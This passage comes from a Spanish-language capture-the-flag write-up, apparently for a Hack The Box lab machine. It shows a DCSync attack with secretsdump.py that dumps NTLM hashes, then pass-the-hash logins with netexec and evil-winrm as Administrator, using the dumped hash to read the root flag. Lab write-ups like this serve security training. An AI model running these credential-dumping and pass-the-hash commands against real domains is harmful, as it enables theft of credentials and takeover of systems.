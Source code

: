 Se realizó el ataque de **DCSync Attack** y obtuvimos todos los hashes NTLM, incluídos los del usuario Administrator.

```bash
secretsdump.py -just-dc-ntlm administrator.htb/ethan@10.10.11.42
```

<figure><img src="../../.gitbook/assets/2546_vmware_00at5y545v.png" alt=""><figcaption></figcaption></figure>

Verficaremos que el hash NTLM es válido y procederemos a conectarnos a través de **evil-winrm** con el usuario **administrator@administrator.htb** y verificar la flag de **root.txt**.

```bash
netexec winrm 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

evil-winrm -i 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

<figure><img src="../../.gitbook/assets/2547_vmware_rtunSQdrZT.png" alt=""><figcaption></figcaption></figure>
